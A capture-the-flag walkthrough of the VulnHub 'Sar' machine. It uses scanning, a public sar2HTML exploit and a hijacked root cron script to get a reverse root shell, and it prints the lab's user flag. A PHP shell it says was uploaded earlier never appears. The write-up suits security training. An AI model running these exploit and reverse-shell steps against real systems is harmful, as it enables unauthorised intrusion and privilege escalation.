 # VulnHub Walkthrough: Sar

Sar Walkthrough

### Details
* Name: Sar ([VulnHub](https://www.vulnhub.com/entry/sar-1,425/))
* Goal: Get root and read 2 flags

### Initial Network Scan
```bash
sudo netdiscover
```
From the network scan we find that the target IP is `192.168.1.10`.

### Network Scan
Now we lok into doing a more indepth scan of the target machine to locate any open ports.

```bash
# Scan ports 0-65535
nmap -A -p0-65535 192.168.1.10
```

From here, because I saw that port 80 was open, I decided to run a more in-depth nmap scan to enumerate HTTP.

```bash
# Scan all ports, enumerate HTTP, etc.
sudo nmap -sC -sV -A -O -p- -T4 -script http-enum 192.168.1.10
```

### HTTP directory enumeration

Before I start exploring the website, I want to run a gobuster, nikto, and dirb scan to see if there are any hidden directories.
```bash
# Gobuster scan: Big wordlist
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e -t 20 -u http://192.168.1.10

# Nikto scan
nikto -h http://192.168.1.10

# dirb scan
dirb http://192.168.1.10
```

From the scans, we find a `/robots.txt` directory. When we explore this page (http://192.168.1.10/robots.txt), we find a hidden directory `sar2HTML`.

From here we can once again try scanning the site with our tools.
```bash
# Gobuster scan: Big wordlist
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e -t 20 -u http://192.168.1.10/sar2HTML

# Nikto scan
nikto -h http://192.168.1.10/sar2HTML

# dirb scan
dirb http://192.168.1.10/sar2HTML
```

From the nikto scan we find something interesting
```text
+ /sar2HTML/index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc: EW FileManager for PostNuke allows arbitrary file retrieval.
```


### Vulnerability

I went ahead and did a quick search on searchsploit to see if I could find anything of use.
Surely enough, when I searched for "sar2HTML", I found a vulnerability that allows for arbitrary file retrieval.
```bash
# Search for exploit
searchsploit sar2HTML

# Download the python exploit
searchsploit -m 49344

# Download the text exploit
searchsploit -m 47204
```

After looking through both of the exploits, I essentially determined that explain the same thing.
I decided to go with the python exploit since it makes things much easier to do, in terms of running the exploit.
```bash
# Run the python exploit
python3 49344.py

## Enter the website: http://192.168.1.10/sar2HTML
```

Boom we're (sort of in)

### Exploring the system

Once in, I decided to immediately go check the `home` directory to see if there was anything of use.

Fortunately I was able to find something within the users `love` directory
```bash
# Check for any users
ls -halt /home

# Check the love directory
ls -halt /home/love/*

# We discover a "user.txt" file
cat /home/love/user.txt
```

The `user.txt` file contains the following:
```text
427a7e47deb4a8649c7cab38df232b52
```
This is the user flag.

### Privilege Escalation

From here I explored the `/var/www/html` directory and found 2 interesting files:
* finally.sh
* write.sh

finally.sh
```bash
#!/bin/bash

./write.sh
```

write.sh
```bash
#!/bin/bash

touch /tmp/gateway
```

So in summary, we can tell that the `finally.sh` script is running the `write.sh` script.

## Cron Jobs

Through some digging we find out that there is a cronjob running every five minutes that will execute the `finally.sh` script as sudo.
```bash
# Search through cron job
cat /etc/crontab
```

From here we know that all we need to do is edit the `write.sh` script to run a reverse shell.

So we will append a reverse shell to the `write.sh` script. More specifically we will just use the php script we uploaded earlier to give us the first backdoor shell.
```bash
# append the line to the write.sh script
echo "php ./sar2HTML/shell.php" >> ./write.sh
```

From here we just need to wait for the cron job to run and we will have a reverse shell.
```bash
# Start a listener
nc -lvnp 9001
```

After waiting a few minutes, we get a reverse `root` shell.
